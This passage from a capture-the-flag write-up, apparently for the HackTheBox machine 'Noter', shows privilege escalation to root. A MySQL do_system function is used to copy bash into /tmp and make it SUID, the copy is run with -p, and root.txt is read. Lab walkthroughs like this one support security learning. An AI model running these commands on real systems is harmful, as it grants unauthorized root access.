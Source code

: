 

### Shell

To get a shell, I'll drop back into `mysql` and copy `bash` and change
it to be SUID:



    MariaDB [mysql]> select do_system('cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf');
    +-----------------------------------------------------------+
    | do_system('cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf') |
    +-----------------------------------------------------------+
    |                                                         0 |
    +-----------------------------------------------------------+
    1 row in set (0.006 sec)



I'll need to find somewhere to work that's not `/dev/shm`, as that's
mounted `nosuid`:



    svc@noter:/dev/shm$ mount | grep shm
    tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)



`/tmp` will work fine.

Because of how `bash` drops privs, running this will return a non-root
shell:



    svc@noter:/dev/shm$ /tmp/0xdf
    0xdf-5.0$



Exiting from that and re-running with `-p` will give root:



    svc@noter:/dev/shm$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(svc) gid=1001(svc) euid=0(root) groups=1001(svc)



From here, I can read `root.txt`:



    0xdf-5.0# cat root.txt
    1be965e2************************




[Alternative Noter Root
»](/htb-noter-alternative-root-first-blood.md)






